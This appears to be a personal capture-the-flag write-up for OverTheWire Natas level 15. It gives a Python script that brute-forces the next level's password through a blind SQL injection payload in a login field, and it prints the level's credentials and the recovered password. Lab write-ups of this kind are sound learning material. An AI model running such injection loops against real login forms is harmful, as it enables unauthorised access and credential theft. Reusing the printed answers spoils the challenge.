 # natas 15

Uhh... Honestly I'm not quite sure how I was supposed to do this one. But since I can't print any resources, I am honestly lost.

A friend and I finally come to the conclusion of just bruteforcing it. So that's what we did.


*(You can find this file in /testing/)*
```py
import requests
import string

const = ""
for i in range(len("AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")):
  for entry in string.ascii_letters + string.digits:
      payload = {'username': 'natas16" AND (BINARY password LIKE "{0}%" OR  BINARY password = "{0}") AND  ""="'.format(const + entry)}
      response = requests.post('http://natas15.natas.labs.overthewire.org/', auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = payload)
      # print(entry)
      if "This user exists." in response.text:
        const += entry
        # print(const)
        break
print(const)
```

Knowing that the password is always the same length, and that it's either a alphebetical character or digit, we basically just checked each position so see what character they are. So the whole code evaluates to a big fat O(62n). But hey, it works. (Oh yeah also SQL columns are case insensitive, so you need to put BINARY in front of the column you're)

> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
